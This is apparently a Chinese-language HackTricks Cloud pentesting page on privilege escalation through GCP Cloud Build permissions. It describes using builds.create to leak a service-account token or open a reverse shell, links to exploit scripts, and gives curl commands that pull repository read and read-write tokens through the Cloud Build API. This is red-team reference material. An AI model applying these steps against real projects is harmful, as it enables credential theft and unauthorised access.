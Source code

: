 # GCP - Cloudbuild 权限提升

<details>

<summary><strong>从零开始学习 AWS 黑客攻击直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>!</strong></summary>

其他支持 HackTricks 的方式:

* 如果你想在 HackTricks 上看到你的**公司广告**或者**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享你的黑客技巧。

</details>

## cloudbuild

想了解更多关于 Cloud Build 的信息，请查看：

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../../gcp-pentesting/gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

拥有这个权限，你可以**提交一个 cloud build**。cloudbuild 机器在其文件系统中**默认会有一个 cloudbuild 服务账户的 token**：`<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`。然而，你可以在 cloudbuild 配置中**指定项目内的任何服务账户**。\
因此，你可以让机器向你的服务器泄露 token 或者**在其中获取一个反向 shell 并自己获取 token**（包含 token 的文件可能会变化）。

你可以在 [**GitHub 上这里**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) 找到原始的利用脚本（但是它获取 token 的位置对我来说不起作用）。因此，请查看一个自动化[**创建、利用和清理漏洞环境的脚本在这里**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.sh)和一个 python 脚本在 cloudbuild 机器内获取反向 shell 并[**窃取它在这里**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.py)（在代码中你可以找到如何指定其他服务账户）**。**

想要更深入的解释，请访问 [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

### `cloudbuild.builds.update`

**可能**拥有这个权限，你将能够**更新一个 cloud build 并像之前的权限一样窃取服务账户 token**（但不幸的是，在撰写本文时，我找不到任何调用该 API 的方法）。

待办事项

### `cloudbuild.repositories.accessReadToken`

拥有这个权限的用户可以获取用于访问仓库的**读取访问 token**：

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

拥有此权限的用户可以获取用于访问仓库的**读写访问令牌**：

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
{% endcode %}

### `cloudbuild.connections.fetchLinkableRepositories`

拥有此权限，您可以**获取连接所能访问的仓库：**

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
<details>

<summary><strong>从零到英雄学习AWS黑客技术，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
